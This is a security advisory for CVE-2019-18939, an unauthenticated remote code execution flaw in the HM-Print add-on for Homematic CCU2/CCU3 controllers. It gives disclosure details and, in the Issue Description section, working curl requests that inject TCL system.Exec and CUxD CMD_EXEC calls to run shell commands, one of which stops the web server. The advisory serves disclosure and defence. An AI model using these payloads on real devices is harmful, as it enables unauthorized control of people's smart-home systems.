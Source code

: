 ```yaml
---
layout: post
title:  "CVE-2019-18939 eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request"
date:   2019-11-14 19:35:00 MEST
author: 'psytester'
---
```



# Overview

- CVE: CVE-2019-18939
- Author: psytester
- Title: eQ-3 Homematic AddOn 'HM-Print' version 1.2a and prior on CCU2 and CCU3 allows Remote Code Execution by unauthenticated attackers with access to the web interface by usage of exec.cgi & exec1.cgi script, which executes TCL script content from HTTP POST request
- Vulnerability Type: CWE-284: Improper Access Control
-	CVSSv3 Base Score: 10.0
-	CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H
- Publishing Date: 14.11.2019
- Updated: --
- Vendor: eQ-3 AG for CCU Firmware is providing possibility to install AddOn software
- Product: Homematic CCU2 and CCU3
- Vendor eQ-3 contacted: 13.02.2019
- Vendor eQ-3 response on 11.04.2019 with "not responsible for AddOns"
- Addon itself:
  - Developer of 'HM-Print' AddOn contacted: 13.08.2019 as [issue #4](https://github.com/litti/hm-print/issues/4)
  - Developer of 'HM-Print' AddOn confirmation: N.A.
  - 'HM-Print' AddOn patch: N.A.
  - Affected 'HM-Print' AddOn version: 1.2a and prior

# Background

From [Github 'HM-Print' AddOn project page](https://github.com/litti/hm-print):<br>
For documentation purposes it would sometimes be desirable to be able to print programs within the WebUI. Unfortunately, the interface does not offer a corresponding function. Also the built-in print function of the browser does not help, because scripts may remain unaffected by the printout. With this small AddOn this functionality can be easily retrofitted.

From [eQ-3 vendor's website for CCU2](https://www.eq-3.com/products/homematic/control-units-and-gateways/homematic-central-control-unit-ccu2.html):<br>
HomeMatic Central Control Unit CCU2

Homematic Central Control Unit is the central element of your Homematic system, offering a whole range of control, monitoring and configuration options for all the Homematic devices in your installation<br>
[....]<br>

From [eQ-3 vendor's website for CCU3](https://www.homematic-ip.com/en/products/detail/smart-home-central-control-unit-ccu3.html):<br>
The Central Control Unit CCU3 is the central element for local control of the Homematic IP smart home system. It represents the next generation of our proven Homematic Central Control Units CCU1 and CCU2. Operation via the Central Control Unit CCU3 can be used alternatively to the Homematic IP Access Point. While the Access Point establishes the connection to the free Homematic IP cloud and enables operation of the smart home system via a smartphone app, the Central Control Unit CCU3 works locally via a browser-based web interface (WebUI). Thanks to local configuration and operation as well as the option to create direct device connections, reliable and fail-proof operation of the smart home system is guaranteed at all times – even in the event of Internet failures.<br>
[....]<br>

# Issue Description

While analyzing the CCU web interface based on given page files in file system path /www, this is another Improper Access Control resulting into Remote Code Execution vulnerability located in 'HM-Print' AddOn, if it's installed. This vulnerability can be exploited by unauthenticated attackers with access to the web interface.<br>

The following HTTP requests in Web Browser illustrates the attack vectors:

1. RCE with Homematic undocumented internal system.Exec() call on exec.cgi or exec1.cgi:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("sleep 4;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/bin/touch /tmp/testfile;");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=system.Exec("/etc/init.d/S50lighttpd stop;");'
```

2. If also the popular CUxD AddOn is installed, another RCE is possible by abuse of the virtual CUxD'CMD_EXEC' device call on exec.cgi or exec1.cgi:<br>
```
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'

curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/bin/touch /tmp/testfile");'
curl -X POST -i 'http://1.2.3.4/addons/print/exec1.cgi' --data 'var x=dom.GetObject("CUxD.CUX2801001:1.CMD_EXEC").State("/etc/init.d/S50lighttpd stop");'
```

# CVE

[CVE-2019-18939](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-18939)

# CVSSv3 Base Score

CVSSv3 Base Score: 10.0

CVSSv3 Vector: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H

# Credit

[psytester](https://psytester.github.io)

Not owning an original CCU2 or CCU3, but you want to analyze the CCU 'for free'?<br>
You can download<br>
[piVCCU](https://github.com/alexreinert/piVCCU) for running the original CCU3 Firmware in lxc container on RaspberryPi<br>
[RaspberryMatic](https://github.com/jens-maus/RaspberryMatic) for running the opensource OCCU based release on different boards<br>

# Disclaimer

The information provided is released "as is" without warranty of any kind. The publisher disclaims all warranties, either express or implied, including all warranties of merchantability. No responsibility is taken for the correctness of this information.
In no event shall the publisher be liable for any damages whatsoever including direct, indirect, incidental, consequential, loss of business profits or special damages, even if the publisher has been advised of the possibility of such damages.

The contents of this advisory are copyright (c) 2019 by psytester and may be distributed freely provided that no fee is charged for this distribution and proper credit is given.
